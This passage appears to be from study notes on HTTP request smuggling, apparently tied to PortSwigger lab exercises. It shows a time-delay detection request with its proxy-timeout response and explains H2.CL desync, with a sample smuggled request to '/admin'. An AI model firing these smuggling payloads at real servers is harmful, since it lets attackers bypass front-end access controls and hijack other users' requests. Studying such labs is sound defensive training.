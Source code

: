 ##### using time delay
- request
```http
POST / HTTP/1.1
Host: 0a1400a9045d90718087850f0092005f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 6\r\n
\r\n
0\r\n
\r\n
X
```
- response
```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 125

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Communication timed out</h1></body></html>
```

## HTTP 2 request smuggling Types 
### H2.CL


When frontend server use the `Content-Length` Header to set the length of the message while `downgrading` to HTTP 1.1


The spec dictates that any content-length header in an HTTP/2 request must match the length calculated using the built-in mechanism, but this isn't always validated properly before downgrading.


Although the front-end will use the [implicit HTTP/2 length](https://portswigger.net/web-security/request-smuggling/advanced#http-2-message-length) to determine where the request ends, the HTTP/1 back-end has to refer to the Content-Length header derived from your injected one, resulting in a desync. 

- **Front-end (HTTP/2)**

![Screenshot_4](https://github.com/user-attachments/assets/fa1f09e0-209a-4590-a9ef-d2cd6ece5893)


- **Back-end (HTTP/1)**
```
POST / HTTP/2
Host: vulnerable-website.com
Cookie: session=SPomJ7pQ3Oix3yyWMVAHnt3zu7m6j1NR
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 5

s=s
```
### H2.TE 
When frontend server use the `transfer-encoding` Header to set the length of the message while `downgrading` to HTTP 1.1
